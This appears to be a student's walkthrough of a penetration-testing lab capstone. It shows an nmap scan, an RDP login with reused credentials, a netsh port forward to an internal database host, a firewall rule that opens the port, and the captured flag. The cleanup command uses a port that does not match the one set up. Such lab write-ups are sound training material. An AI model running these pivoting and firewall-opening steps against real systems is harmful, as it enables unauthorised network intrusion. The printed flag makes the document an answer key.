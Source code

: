 Questions 2
Capstone Exercise: Start VM Group 2. Download the netsh_exercise_client.bin binary from http://MULTISERVER03/umbraco/netsh_exercise_client.bin to your Kali machine. Create a port forward on MULTISERVER03 that allows you to run this binary against port 4545 on PGDATABASE01. The flag will be returned when a successful connection is made.
Note: the source files used to build the netsh_exercise_client.bin binary can be downloaded from /umbraco/client_source.zip.

HINT
Repeat the steps in this learning unit.
Use the command in Listing 60, and change the port to 4545 and the IP.
Download the netsh_exercise_client.bin.
Make the binary executable and run it against 4545 on MULTISERVER03 to get the flag.

# Download the exploit tools 
wget http://192.168.180.64/umbraco/netsh_exercise_client.bin
chmod 755 netsh_exercise_client.bin

# Scan the MULTISERVER03 server
nmap -sC -sV -Pn -T4 192.168.180.64
...
53/tcp open dns
80/tcp open http
135/tcp open msrpc
3389/tcp open ms-wbt-server
...

# Since the 3389 is open lets try the previous credentials
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.180.64

# Open CMD in Administrators
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.180.64 connectport=4545 connectaddress=10.4.180.215

netsh interface portproxy show all
...
192.168.180.64  4455        10.4.180.215    4545
...

# Poke the hole in the MULTISERVER03 Windows Firewall\
netsh advfirewall firewall add rule name="port_forward_DB_4455" protocol=TCP dir=in localip=192.168.180.64 localport=4455 action=allow
Ok.

# exploit
./netsh_exercise_client.bin -i 192.168.180.64 -p 4455
Connecting to 192.168.180.64:4455
Flag: "OS{eddd5b4533d72b2c5fe62dc8adbafcec}"

# Lets remove the records
netsh advfirewall firewall delete rule name="port_forward_DB_4455"
netsh interface portproxy del v4tov4 listenport=4545 listenaddress=192.168.180.64
...
# If failed below warning msg will be prompt otherwise no msg will be prompt
The system cannot find the file specified.
...


